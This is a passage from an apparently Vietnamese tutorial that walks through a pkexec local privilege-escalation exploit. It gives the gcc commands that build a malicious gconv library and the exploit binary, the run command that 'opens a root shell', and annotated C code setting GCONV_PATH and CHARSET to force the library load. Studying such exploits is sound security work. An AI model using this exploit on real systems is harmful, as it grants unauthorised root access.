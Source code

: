 Mã này thiết lập môi trường độc hại, tạo thư mục `GCONV_PATH`, sao chép thư viện độc hại và chạy `pkexec`.

3. **Biên dịch và thực thi khai thác**:

```bash
# Biên dịch
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit

# Chạy khai thác
./exploit
```

Lệnh này sẽ kích hoạt pkexec với thư viện độc hại, mở shell root.

### 2.3 Phân tích chi tiết mã khai thác

**1. Khai báo thư viện và định nghĩa hằng số**

```c
#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"
```

- #include <stdio.h>: Sử dụng để nhập/xuất dữ liệu (ví dụ: printf()).
- #include <stdlib.h>: Chứa các hàm như system() và execve(), cần thiết để thực thi lệnh hệ thống.
- BIN: Xác định đường dẫn của pkexec, chương trình mà chúng ta khai thác.
- DIR: Định nghĩa thư mục chứa thư viện gconv giả mạo (evildir).
- EVILSO: Định nghĩa tên thư viện độc hại (evil.so).

**2. Khai báo biến môi trường**

```c
char *envp[] = {
    DIR,
    "PATH=GCONV_PATH=.",
    "SHELL=ryaagard",
    "CHARSET=ryaagard",
    NULL
};

char *argv[] = { NULL };
```

- envp[]: Danh sách biến môi trường để ép pkexec tải thư viện độc hại.
- DIR: Định nghĩa thư mục chứa module gconv giả (evildir).
- PATH=GCONV_PATH=.: Thiết lập biến GCONV_PATH trỏ đến thư mục hiện tại (.), để pkexec tìm kiếm module gconv giả.
- SHELL=ryaagard: Định nghĩa giá trị SHELL giả mạo (tên module gconv giả).
- CHARSET=ryaagard: Gán bộ mã ký tự (CHARSET) thành ryaagard, điều này sẽ buộc pkexec tải thư viện gconv giả.
- argv[]: Danh sách đối số truyền vào pkexec (để trống, vì lỗ hổng xuất hiện khi argc == 1).
